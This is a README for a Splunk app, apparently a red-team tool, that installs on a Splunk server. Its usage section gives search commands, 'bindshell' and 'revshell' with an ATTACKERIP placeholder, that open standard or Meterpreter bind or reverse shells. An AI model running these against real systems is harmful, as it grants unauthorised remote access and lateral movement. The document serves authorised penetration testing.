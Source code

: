 Splunk Shells App
Version 1.1

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/MrJester/splunk_shells/releases/download/1.0/splunk_shells.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
using each of these shells can be done from the Search and Reporting app. Execute the following searches:

'| bindshell SHELLTYPE PORTNUMBER' 
SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888


'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT' 
SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
ATTACKERIP - Specify the IP that you want to shell to be sent back to. 
ATTACKERPORT - Specify the port you want the shell to be sent back to.
